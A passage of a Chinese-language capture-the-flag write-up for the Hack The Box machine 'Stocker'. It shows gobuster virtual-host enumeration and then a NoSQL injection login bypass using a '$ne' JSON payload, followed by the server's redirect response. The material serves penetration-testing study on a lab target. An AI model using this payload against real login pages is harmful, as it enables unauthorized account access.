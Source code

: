 已经可以通过web访问此页面了。

从上看到下，没有找到可以利用的点。改变一下思路，找一下vhost。

```shell
🔍🤡 -> gobuster vhost -w /Users/xxx/workspace/tools/lists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /Users/xxx/workspace/tools/lists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/06/10 16:49:20 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/06/10 16:49:55 Finished
===============================================================
```

有个子域名：dev.stocker.htb，再在/etc/hosts中手动解析一次。

### 第二步：渗透

web访问，重定向到一个login页面。

burp抓包，尝试：

- 暴力破解❌
- 常规SQLi❌
- 参数变形❌
- POST改GET❌
- Nosql注入

修改Content-Type为 application/json，data为：{"username":{"$ne":"admin"}, "password":{"$ne":"pass"}}

参考：https://book.hacktricks.xyz/pentesting-web/nosql-injection & https://www.secpulse.com/archives/3278.html

返回：

```shel
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 10 Jun 2023 09:09:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```
